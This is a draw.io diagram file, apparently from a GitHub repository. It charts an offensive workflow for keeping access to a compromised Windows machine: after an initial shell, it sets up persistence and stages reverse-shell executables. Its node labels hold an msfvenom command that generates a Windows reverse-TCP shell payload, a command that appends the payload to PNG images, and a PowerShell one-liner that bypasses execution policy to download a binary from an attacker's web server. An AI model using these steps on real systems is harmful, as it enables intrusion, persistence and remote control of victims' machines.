 <mxfile version="20.2.2" type="github">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Overall">
    <mxGraphModel dx="1659" dy="689" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="G-sO2mh2Iyi2BEA4O4LV-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="30" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-4" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="WIyWlLk6GJQsqaUBKTNV-10" edge="1">
          <mxGeometry y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="G-sO2mh2Iyi2BEA4O4LV-17" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="370" y="120" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="135" y="170" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-4" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-19" target="G-sO2mh2Iyi2BEA4O4LV-0">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="440" y="160" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-8" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="WIyWlLk6GJQsqaUBKTNV-11" edge="1">
          <mxGeometry x="0.333" y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-10" value="" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="170" y="290" width="100" height="80" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-11" value="" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="430" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-0" value="Compile Into EXE&#39;s" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="490" y="240" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-5" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="665" y="485" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-7" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_Medium.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="800" y="500" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-14" target="WIyWlLk6GJQsqaUBKTNV-6">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-14" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="160" y="90" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-17" value="Update Code" style="swimlane;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="370" y="30" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-19" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-17">
          <mxGeometry x="20" y="40" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-21" value="Medium IL Tools Directory" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-19">
          <mxGeometry y="30" width="150" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-23" value="Reverse_9001.cpp&#xa;Reverse_9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-17">
          <mxGeometry x="200" y="40" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-25" value="Medium IL Tools Directory" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-23">
          <mxGeometry y="30" width="150" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-30" value="9001.png&#xa;9002.png" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-17">
          <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-31" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-30">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-32" value="Appropriate Port" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-30">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-37" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; payload_reverse_shell_port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-17">
          <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-34" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-23" target="G-sO2mh2Iyi2BEA4O4LV-0">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="475" y="140" as="sourcePoint" />
            <mxPoint x="490" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-35" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="760" y="240" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-36" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-30" target="G-sO2mh2Iyi2BEA4O4LV-35">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-38" value="cp original.png combined.png; cat payload_reverse_shell_port#.raw &amp;gt;&amp;gt; combined.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="930" y="240" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-57" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-49" target="G-sO2mh2Iyi2BEA4O4LV-5">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-49" value="Stage" style="swimlane;shadow=0;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="380" y="340" width="690" height="110" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-39" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-51" value="Reverse_9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-52" value="Reverse_9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-53" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-54" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-55" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-0" target="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="850" y="170" as="sourcePoint" />
            <mxPoint x="850" y="250" as="targetPoint" />
            <Array as="points">
              <mxPoint x="550" y="310" />
              <mxPoint x="725" y="310" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-56" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-35" target="G-sO2mh2Iyi2BEA4O4LV-49">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="560" y="280" as="sourcePoint" />
            <mxPoint x="735" y="350" as="targetPoint" />
            <Array as="points">
              <mxPoint x="840" y="310" />
              <mxPoint x="725" y="310" />
            </Array>
          </mxGeometry>
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
